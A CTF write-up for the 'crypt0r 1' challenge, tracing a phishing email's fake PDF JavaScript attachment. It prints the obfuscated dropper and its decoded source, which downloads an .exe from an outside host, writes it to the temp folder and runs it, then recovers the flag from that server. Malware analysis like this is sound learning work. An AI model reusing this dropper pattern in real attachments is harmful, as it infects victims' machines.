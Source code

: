 
_If you reach the top of the mountain, find yet another._
    -- _Super Street Fighter 2 - Fei Long_


#Cryptor 1

This is a series of three challenges, crypt0r 1, 2 and 3.

We were told that a secreatry has received something 'strange' in her emails
and asks for help.

## Recon
The name let us think of ransomware: ( https://en.wikipedia.org/wiki/Ransomware ).

That could be fun. The file given is a tgz, called mails.tgz We also know that
ransomware are often sent by emails. That's a first lead.

```
mitsurugi@dojo:~/chall/inshack$ ls -l mails.tgz
-rw-r--r-- 1 mitsurugi mitsurugi 6787079 avril  6 19:46 mails.tgz
mitsurugi@dojo:~/chall/inshack$ tar zxvf mails.tgz 
mails/
mails/MKL4CN1ZSH7R4RKUS2YCP3UXPH6XVVR0.eml
mails/PRZNX8XJTVO0K373U04JYBTFP0XLJ957.eml
mails/I0LJDHELVLZ9YVM7Y6PTKMR3KMY0P8V8.eml
 (.. snip the 70 lines ...)
mails/RVFEYZ4TM8SVWUHOKH7NLDUYM4AXQFGE.eml
mails/099LCMXBLGDYKFEV61T7ND8YSY755205.eml
mails/HICWHKM4Q30ZBII4I10MTRXIOQFUOYMT.eml
mitsurugi@dojo:~/chall/inshack$ cd mails/
mitsurugi@dojo:~/chall/inshack/mails$ for mail in \*eml; do ripmime $mail ; done
mitsurugi@dojo:~/chall/inshack/mails$
```

ripmime have extracted all the attachments. We have a *lot* of files:
```
mitsurugi@dojo:~/chall/inshack/mails$ ls -l | wc -l
270
mitsurugi@dojo:~/chall/inshack/mails$ 
```
From these files, we have to find the one suspicious. This challenge
deals with ransomware, did you ever studied ransomware/malware? If yes,
you surely know that it spread by email, mimicking a zip or doc but being
a script file (.js or .wsf or alike) :
http://0x90909090.blogspot.com/2016/06/analysis-of-evil-javascript.html

Guess what:
```
mitsurugi@dojo:~/chall/inshack/mails$ ls *js
sandoche.briman.pdf.js
mitsurugi@dojo:~/chall/inshack/mails$
```

Ok, we got it \o/

## Analysis
We can work on this js file. It's obfusctaed:
```
mitsurugi@dojo:~/chall/inshack/mails$ cat sandoche.briman.pdf.js 
try{
var b = String.fromCharCode(118, 97, 114, 32, 106, 32, 61, 32,
91, 34, 87, 83, 99, 114, 105, 112, 116, 46, 83, 104, 101, (... snip all numbers ...)
...);
eval(b);
} catch (err) {}
mitsurugi@dojo:~/chall/inshack/mails$
```

Don't lose time with that:
```
mitsurugi@dojo:~/chall/inshack/mails$ js24 
js> String.fromCharCode(118, 97, 114, 32, 106, 32, 61, 32, 91, 34, 87,
(... all number copy-pasted...) 125, 10, 10);
"var j = [\"WScript.Shell\",\"Scripting.FileSystemObject\",\"Shell.Application\",\"Microsoft.XMLHTTP\"];\nvar u = [\"aaacc.\", \":/\", \"gpozgzejgozj\", \"glkrgjoegjnfozpkfpze\", \"top\", \"win32\", \"crypt0r\", \"binaries\", \"sweetvpn\", \".\", \"arch\", \"exe\", \"http\", \"/\"];\n\ntry {\n    var sh = Cr(0);\n    var fs = Cr(1);\n\n    var s2 = Ex(\"temp\") + \"\\\\\" + u[2*2+1] +  u[7+3-1]+ u[5*2+1];\n    var fi = fs.CreateTextFile(s2,true);\n    fi.Write(Pt(2565454484514854845487848, \"kgjgepog=kfOIIIeeoezj==\"));\n    fi.Close();\n    sh.run(s2);\n}\ncatch (err)\n{\n}\n\nfunction Ex(S) {\n    return sh.ExpandEnvironmentStrings(\"%\" + S + \"%\");\n}\n\nfunction Pt(C,A) {\n    var X = Cr(3);\n    var T = u[12] + u[7%6] + u[13] + u[3] + u[9] + u[2+2*0] + u[1029*0] + u[8*10/20*2] + u[9] + u[4] + u[13] + u[7] + u[13] + u[10] +  u[10+6/2] + u[7-2] + u[14+5-6] + u[6] + u[9] + u[11];\n\n    X.open('GET', T + \"?p=r&l=\" + C, false);\n    X.SetRequestHeader(\"User-Agent:\", \"Made by b4cc4rd1\");\n    X.send(A);\n    return X.responsetext;\n}\n\n\nfunction Cr(N) {\n    return new ActiveXObject(j[N]);\n}\n\n"
js>
```

In a beutified form:
```
"var j = ["WScript.Shell","Scripting.FileSystemObject","Shell.Application","Microsoft.XMLHTTP"];
var u = ["aaacc.", ":/", "gpozgzejgozj", "glkrgjoegjnfozpkfpze", "top", "win32", "crypt0r", "binaries", "sweetvpn", ".", "arch", "exe", "http", "/"];

try {
    var sh = Cr(0);
    var fs = Cr(1);

    var s2 = Ex("temp") + "\\" + u[2*2+1] +  u[7+3-1]+ u[5*2+1];
    var fi = fs.CreateTextFile(s2,true);
    fi.Write(Pt(2565454484514854845487848, "kgjgepog=kfOIIIeeoezj=="));
    fi.Close();
    sh.run(s2);
}
catch (err)
{
}

function Ex(S) {
    return sh.ExpandEnvironmentStrings("%" + S + "%");
}

function Pt(C,A) {
    var X = Cr(3);
    var T = u[12] + u[7%6] + u[13] + u[3] + u[9] + u[2+2*0] + u[1029*0] + u[8*10/20*2] + u[9] + u[4] + u[13] + u[7] + u[13] + u[10] +  u[10+6/2] + u[7-2] + u[14+5-6] + u[6] + u[9] + u[11];

    X.open('GET', T + "?p=r&l=" + C, false);
    X.SetRequestHeader("User-Agent:", "Made by b4cc4rd1");
    X.send(A);
    return X.responsetext;
}


function Cr(N) {
    return new ActiveXObject(j[N]);
}

"
```

Ok, we can start reversing.
The juicy part is here: ` X.open('GET', T + "?p=r&l=" + C, false); `
The T parameter depends only on the `u` table. Let show it:
```
mitsurugi@dojo:~/chall/inshack/mails$ ipython
Python 2.7.13 (default, Jan 19 2017, 14:48:08) 
Type "copyright", "credits" or "license" for more information.

IPython 5.1.0 -- An enhanced Interactive Python.
?         -> Introduction and overview of IPython's features.
%quickref -> Quick reference.
help      -> Python's own help system.
object?   -> Details about 'object', use 'object??' for extra details.

In [1]: u = ["aaacc.", ":/", "gpozgzejgozj", "glkrgjoegjnfozpkfpze", "top", "win32", "crypt0r", "binaries
   ...: ", "sweetvpn", ".", "arch", "exe", "http", "/"]

In [2]: T = u[12] + u[7%6] + u[13] + u[3] + u[9] + u[2+2*0] + u[1029*0] + u[8*10/20*2] + u[9] + u[4] + u[
   ...: 13] + u[7] + u[13] + u[10] +  u[10+6/2] + u[7-2] + u[14+5-6] + u[6] + u[9] + u[11]

In [3]: T
Out[3]: 'http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/win32/crypt0r.exe'

In [4]: 
```

And we're almost done:
```
mitsurugi@dojo:~/chall/inshack/mails$ lynx -dump http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/win32/crypt0r.exe
                                   Not Found

   The requested URL /binaries/arch/win32/crypt0r.exe was not found on
   this server.
mitsurugi@dojo:~/chall/inshack/mails$ 
```

Strange, but we can explore the website:
```
mitsurugi@dojo:~/chall/inshack/mails$ lynx -dump http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/win32/
   Not that bad. Try again :)

mitsurugi@dojo:~/chall/inshack/mails$
```
Nothing here, let's try upper

```
mitsurugi@dojo:~/chall/inshack/mails$ lynx -dump http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/
                            Index of /binaries/arch

 Icon   [1]Name                    [2]Last modified      [3]Size  [4]Description
  ___________________________________________________________________________
 [DIR]  [5]Parent Directory                             -
 [   ]  [6].flag                   03-Apr-2017 18:39   37
 [DIR]  [7]arm7/                   06-Mar-2017 13:03    -
 [DIR]  [8]dbg64/                  03-Apr-2017 19:37    -
 [DIR]  [9]elf64/                  06-Mar-2017 13:03    -
 [DIR]  [10]march64/                06-Mar-2017 13:03    -
 [DIR]  [11]mips/                   06-Mar-2017 13:03    -
 [DIR]  [12]sparc/                  06-Mar-2017 13:03    -
 [DIR]  [13]win32/                  08-Mar-2017 12:58    -
  ___________________________________________________________________________

```

Ok, a `.flag` file.

## hayai mono gachi (Early one wins)
This is it:
```
mitsurugi@dojo:~/chall/inshack/mails$ lynx -dump http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/.flag
INSAc79371180eddac4582321f98d32db67c

mitsurugi@dojo:~/chall/inshack/mails$
```	

If you liked it, the quest continues in Crypt0r\_2
